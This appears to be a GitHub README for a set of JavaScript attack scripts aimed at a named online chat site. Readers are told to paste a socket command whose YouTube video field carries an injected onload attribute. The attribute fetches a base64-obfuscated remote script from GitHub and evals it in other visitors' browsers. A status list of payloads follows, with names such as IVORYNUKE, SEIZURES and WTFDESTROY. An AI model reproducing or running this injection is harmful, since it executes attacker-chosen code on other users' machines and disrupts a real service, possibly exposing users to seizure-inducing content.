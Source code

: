 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into https://bonziworld-revived-1.onrender.com/ and
paste this script `socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`
# Script Status?
ANANASORANG = Pacifists<br />
BALDIGLITCH = Genocides<br />
CORONAFLOOD = Genocides<br />
DOMINO = Genocides<br />
GAMEBOY = Genocides<br />
IVORYNUKE = Genocides<br />
LOSK = Genocides<br />
SEIZURES = Genocides<br />
WEBDRIVER = Genocides<br />
WTFDESTROY = Genocides<br />
BAN = Genocides
COMBINE = ?????
